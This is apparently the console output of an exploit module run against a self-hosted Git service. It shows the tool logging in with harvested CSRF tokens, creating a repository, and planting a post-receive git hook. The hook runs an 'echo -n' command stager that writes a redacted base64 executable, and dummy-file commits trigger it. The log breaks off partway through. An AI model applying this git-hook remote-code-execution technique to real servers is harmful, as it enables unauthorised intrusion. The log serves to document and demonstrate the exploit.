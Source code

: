 ```
[*] Get "csrf" value
[+] csrf=sr_-bvGEAyHL7kVegnyVKQHLeiQ6MTYxNzE5OTc4NDAwNTMzODkwMA
[+] Logged in
[*] Create repository "Overhold_Aerified"
[*] Get "csrf" and "uid" values
[+] csrf=En0ZHw8mYn_sR0mvf9XQ-TlPmIY6MTYxNzE5OTc4NTAwNTg5ODUwMA
[+] uid=1
[+] Repository created
[*] Generated command stager: ["echo -n TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAA...<redacted>
[*] Executing command: echo -n TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAA...<redacted>
[*] Setup post-receive hook with command
[*] Get "csrf" value
[+] csrf=En0ZHw8mYn_sR0mvf9XQ-TlPmIY6MTYxNzE5OTc4NTAwNTg5ODUwMA
[+] Git hook setup
[*] Create a dummy file on the repo to trigger the payload
[*] Get "csrf" and "last_commit" values
[+] csrf=En0ZHw8mYn_sR0mvf9XQ-TlPmIY6MTYxNzE5OTc4NTAwNTg5ODUwMA
[+] last_commit=c3b19ce94e7d881e44d8c69b99db7625a61a1408
[*] QzUyEvdG.txt created
[+] File created
[*] Command Stager progress -  20.14% done (2046/10161 bytes)
[*] Executing command: echo -n AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...<redacted>
[*] Setup post-receive hook with command
[*] Get "csrf" value
[+] csrf=En0ZHw8mYn_sR0mvf9XQ-TlPmIY6MTYxNzE5OTc4NTAwNTg5ODUwMA
[+] Git hook setup
[*] Create a dummy file on the repo to trigger the payload
[*] Get "csrf" and "last_commit" values
[+] csrf=En0ZHw8mYn_sR0mvf9XQ-TlPmIY6MTYxNzE5OTc4NTAwNTg5ODUwMA
[+] last_commit=591d40885bfab38ca97a9e7fecd3f5a4ad42dfc0
[*] BjLeoDF.txt created
[+] File created
[*] Command Stager progress -  40.27% done (4092/10161 bytes)
[*] Executing command: echo -n AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...<redacted>
[*] Setup post-receive hook with command
[*] Get "csrf" value
[+] csrf=En0ZHw8mYn_sR0mvf9XQ-TlPmIY6MTYxNzE5OTc4NTAwNTg5ODUwMA
[+] Git hook setup
[*] Create a dummy file on the repo to trigger the payload
[*] Get "csrf" and "last_commit" values
[+] csrf=En0ZHw8mYn_sR0mvf9XQ-TlPmIY6MTYxNzE5OTc4NTAwNTg5ODUwMA
[+] last_commit=8e72d9f4188aa71bd20422a95a478aca81b21107
[*] zMjwGd.txt created
[+] File created
[*] Command Stager progress -  60.41% done (6138/10161 bytes)
[*] Executing command: echo -n AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...<redacted>
[*] Setup post-receive hook with command
[*] Get "csrf" value
[+] csrf=En0ZHw8mYn_sR0mvf9XQ-TlPmIY6MTYxNzE5OTc4NTAwNTg5ODUwMA
[+] Git hook setup
[*] Create a dummy file on the repo to trigger the payload
[*] Get "csrf" and "last_commit" values
[+] csrf=En0ZHw8mYn_sR0mvf9XQ-TlPmIY6MTYxNzE5OTc4NTAwNTg5ODUwMA
[+] last_commit=e8e13e991fe8310590f0372740c4ad034a94d0b2
[*] Cnaoh.txt created
[+] File created
[*] Command Stager progress -  80.54% done (8184/10161 bytes)
[*] Executing command: echo -n AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...<redacted>
[*] Setup post-receive hook with command
[*] Get "csrf" value
[+] csrf=En0ZHw8mYn_sR0mvf9XQ-TlPmIY6MTYxNzE5OTc4NTAwNTg5ODUwMA
[+] Git hook setup
[*] Create a dummy file on the repo to trigger the payload
```